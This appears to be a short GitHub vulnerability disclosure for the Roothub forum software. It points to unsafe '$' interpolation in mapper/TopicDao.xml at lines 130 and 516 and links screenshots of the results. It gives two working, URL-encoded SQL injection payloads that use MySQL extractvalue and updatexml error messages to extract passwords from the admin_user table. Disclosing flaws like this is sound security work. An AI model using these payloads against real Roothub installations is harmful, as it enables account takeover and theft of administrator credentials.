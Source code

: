 # Roothub_vulns

Vulnerable codes:

## Bug 1:
> Erroneously usage of "$" in mapper/TopicDao.xml:130:<br>
![image](https://user-images.githubusercontent.com/9525971/159167814-90697f99-74dc-496f-be04-c641db268602.png)<br><br>
## Bug 2:
> Erroneously usage of "$" in mapper/TopicDao.xml:516:<br>
![image](https://user-images.githubusercontent.com/9525971/159168468-e1956c80-26dd-4ad9-84ef-2939688cd907.png)

<br><br>
> Payload: we can use "extractvalue" or "updatexml" function in mysql to trigger the exception and finish the exploition of this SQLi vulnerability.
1. "extractvalue":
a%25'%20union%20select%20null%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cextractvalue('1'%2Cconcat('~'%2C(select%20password%20from%20admin_user)))%20from%20admin_user--%20

2. "updatexml":
xx%25%27%20and%20updatexml(1%2Cconcat(0x7e%2C(select%20password%20from%20admin_user)%2C0x7e)%2C3)--%20<br><br>

> Result:
1. "extractvalue":
![image](https://user-images.githubusercontent.com/9525971/159168040-faae0fcd-d21c-4784-ab39-3faac5d6664e.png)<br>
2. "updatexml": 
![image](https://user-images.githubusercontent.com/9525971/159168005-c753cbf5-9f82-463c-9bcf-5dcfe8cdc6d6.png)

